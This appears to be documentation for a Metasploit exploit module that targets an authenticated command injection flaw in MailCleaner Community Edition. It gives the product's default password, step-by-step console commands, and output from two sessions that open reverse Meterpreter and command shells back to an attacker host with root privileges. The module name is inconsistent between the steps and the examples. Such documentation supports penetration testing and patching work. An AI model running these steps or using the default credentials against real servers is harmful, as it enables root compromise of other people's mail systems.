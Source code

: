 ## Vulnerable Application

This module exploits the command injection vulnerability of MailCleaner Community Edition product. An authenticated user can execute an operating system command under the context of the web server user which is root.

### Installation
You can download ISO file from following URL.
[https://www.mailcleaner.org/latest-downloads/](https://www.mailcleaner.org/latest-downloads/)

At the time of this writing all the passwords of users such as root or admin user was "MCPassw0rd".

## Verification Steps

A successful check of the exploit will look like this:

- [ ] Start `msfconsole`
- [ ] `use use exploit/linux/http/mailcleaner`
- [ ] Set `RHOST`
- [ ] Set `LHOST`
- [ ] Set `USERNAME`
- [ ] Set `PASSWORD`
- [ ] Run `exploit`
- [ ] **Verify** that you are seeing ` Awesome..! Authenticated`.
- [ ] **Verify** that you are getting `meterpreter` session.

## Scenarios

```
msf5 > use exploit/linux/http/mailcleaner_exec 
msf5 exploit(linux/http/mailcleaner_exec) > set RHOSTS 12.0.0.100
RHOSTS => 12.0.0.100
msf5 exploit(linux/http/mailcleaner_exec) > set LHOST 12.0.0.1
LHOST => 12.0.0.1
msf5 exploit(linux/http/mailcleaner_exec) > set USERNAME admin
USERNAME => admin
msf5 exploit(linux/http/mailcleaner_exec) > set PASSWORD <password>
PASSWORD => qwe123
msf5 exploit(linux/http/mailcleaner_exec) > run

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Performing authentication...
[+] Awesome..! Authenticated with admin:<password>
[*] Exploiting command injection flaw
[*] Sending stage (53508 bytes) to 12.0.0.100
[*] Meterpreter session 1 opened (12.0.0.1:4444 -> 12.0.0.100:44974) at 2018-12-19 17:24:44 +0300
[*] Sending stage (53508 bytes) to 12.0.0.100
[*] Meterpreter session 2 opened (12.0.0.1:4444 -> 12.0.0.100:44975) at 2018-12-19 17:24:45 +0300

meterpreter >
```

You can also use cmd payloads.

```
msf5 > use exploit/linux/http/mailcleaner_exec 
msf5 exploit(linux/http/mailcleaner_exec) > set RHOSTS 12.0.0.100
RHOSTS => 12.0.0.100
msf5 exploit(linux/http/mailcleaner_exec) > set LHOST 12.0.0.1
LHOST => 12.0.0.1
msf5 exploit(linux/http/mailcleaner_exec) > set USERNAME admin
USERNAME => admin
msf5 exploit(linux/http/mailcleaner_exec) > set PASSWORD <password>
msf5 exploit(linux/http/mailcleaner_exec) > set target 1
msf5 exploit(linux/http/mailcleaner_exec) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf5 exploit(linux/http/mailcleaner_exec) > run

[*] Started reverse TCP double handler on 12.0.0.1:4444 
[*] Performing authentication...
[+] Awesome..! Authenticated with admin:MCPassw0rd
[*] Exploiting command injection flaw
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo P6zixt2asYXZ29NE;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "P6zixt2asYXZ29NE\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (12.0.0.1:4444 -> 12.0.0.100:53996) at 2018-12-20 12:09:32 +0300

id
uid=0(root) gid=1003(mailcleaner) groups=1003(mailcleaner)
```